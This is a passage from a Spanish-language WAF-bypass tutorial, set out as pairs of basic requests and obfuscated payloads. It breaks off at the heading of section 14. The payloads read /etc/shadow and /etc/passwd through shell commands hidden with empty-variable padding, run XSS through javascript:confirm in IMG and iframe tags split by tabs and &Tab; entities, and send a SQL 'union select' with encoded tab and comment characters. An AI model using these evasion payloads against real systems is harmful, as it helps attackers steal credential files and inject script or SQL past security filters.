 **Ofuscar carga útil:**

> /bin/cat$u /etc/shadow$u

Ofuscación de segundo nivel: basada en la posición

**Solicitud básica:**

> /bin/cat /etc/shadow

**Ofuscar carga útil:**

> $u/bin$u/cat$u $u/etc$u/shadow$u

Ofuscación de tercer nivel: caracteres aleatorios

**Solicitud básica:**

> /bin/cat /etc/passwd

**Ofuscar carga útil:**

> $aaaaaa/bin$bbbbbb/cat$ccccccc $dddddd/etc$eeeeeee/passwd$fffffff

### **13. Técnica de tabulaciones y avances de línea**

Las pestañas a menudo ayudan a evadir los firewalls, especialmente los basados ​​en expresiones regulares. Las pestañas pueden ayudar a romper la expresión regular WAF cuando la expresión regular espera espacios en blanco y no pestañas.

**Solicitud básica:**

> <IMG SRC="javascript:confirm();">

**Técnica omitida:**

> <IMG SRC=" javascript:confirm();">

**Variante:**

> <IMG SRC=" jav ascri pt:confirm ();">

**Solicitud básica:**

> http://test.com/test?id=1 union select 1,2,3

**Técnica omitida** :

> http://test.com/test?id=1%09union%23%0A%0Dselect%2D%2D%0A%0D1,2,3

**Solicitud básica:**

> <iframe src=javascript:confirm()></iframe>

**Ofuscar carga útil:**

> <iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:c&Tab;o&Tab;n&Tab;f&Tab;i&Tab;r&Tab;m&Tab;%28&Tab;%29></iframe>

### 14. Técnica para romper fichas
